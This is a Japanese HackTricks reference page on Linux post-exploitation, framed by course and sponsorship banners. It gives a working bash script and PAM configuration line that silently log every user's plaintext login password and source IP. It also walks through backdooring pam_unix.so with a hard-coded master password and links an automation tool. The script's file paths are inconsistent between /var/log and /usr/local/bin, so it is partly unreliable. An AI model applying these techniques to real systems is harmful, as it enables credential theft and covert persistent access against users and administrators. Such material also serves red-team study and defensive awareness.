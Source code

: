 # Linux Post-Exploitation

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}

## PAMを使用してログオンパスワードを嗅ぐ

PAMモジュールを構成して、各ユーザーがログインに使用するパスワードを記録するようにします。PAMが何かわからない場合は、次を確認してください：

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**詳細については、[元の投稿](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)を確認してください**。これは要約です：

**技術概要:**
プラグ可能認証モジュール（PAM）は、Unixベースのシステムで認証を管理する柔軟性を提供します。これらはログインプロセスをカスタマイズしてセキュリティを向上させることができますが、誤用されるとリスクをもたらすこともあります。この要約では、PAMを使用してログイン資格情報をキャプチャする技術と、緩和戦略について概説しています。

**資格情報のキャプチャ:**
- `toomanysecrets.sh`という名前のbashスクリプトが作成され、ログイン試行を記録し、日付、ユーザー名（`$PAM_USER`）、パスワード（stdin経由）、およびリモートホストIP（`$PAM_RHOST`）を`/var/log/toomanysecrets.log`にキャプチャします。
- スクリプトは実行可能になり、`pam_exec.so`モジュールを使用してPAM構成（`common-auth`）に統合され、静かに実行され、認証トークンがスクリプトに公開されるオプションが付けられます。
- この手法は、侵害されたLinuxホストが悪用されて資格情報を控えめに記録する方法を示しています。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAMへのバックドア設置

**詳細については、[元の投稿](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**を参照してください。以下は要約です：

Pluggable Authentication Module（PAM）は、Linuxでユーザー認証に使用されるシステムです。**ユーザー名**、**パスワード**、**サービス**の3つの主要な概念に基づいて動作します。各サービスの構成ファイルは`/etc/pam.d/`ディレクトリにあり、共有ライブラリが認証を処理します。

**目的**: PAMを変更して、特定のパスワードで認証を許可し、実際のユーザーパスワードをバイパスします。これは、ほとんどのサービスでパスワードの検証に使用される`common-auth`ファイルで使用される`pam_unix.so`共有ライブラリに特に焦点を当てています。

### `pam_unix.so`の変更手順:

1. **`common-auth`ファイル内の認証ディレクティブを特定**:
- ユーザーのパスワードをチェックする責任がある行は`pam_unix.so`を呼び出します。
2. **ソースコードの変更**:
- `pam_unix_auth.c`ソースファイルに条件付きステートメントを追加し、事前定義されたパスワードが使用された場合にアクセスを許可し、それ以外の場合は通常の認証プロセスを続行します。
3. **変更した`pam_unix.so`ライブラリを再コンパイルして置き換える**。
4. **テスト**:
- 事前定義されたパスワードを使用して、通常の認証プロセスに影響を与えずに、さまざまなサービス（ログイン、ssh、sudo、su、スクリーンセーバー）にアクセスが許可されます。

{% hint style="info" %}
[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)を使用してこのプロセスを自動化できます。
{% endhint %}

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}
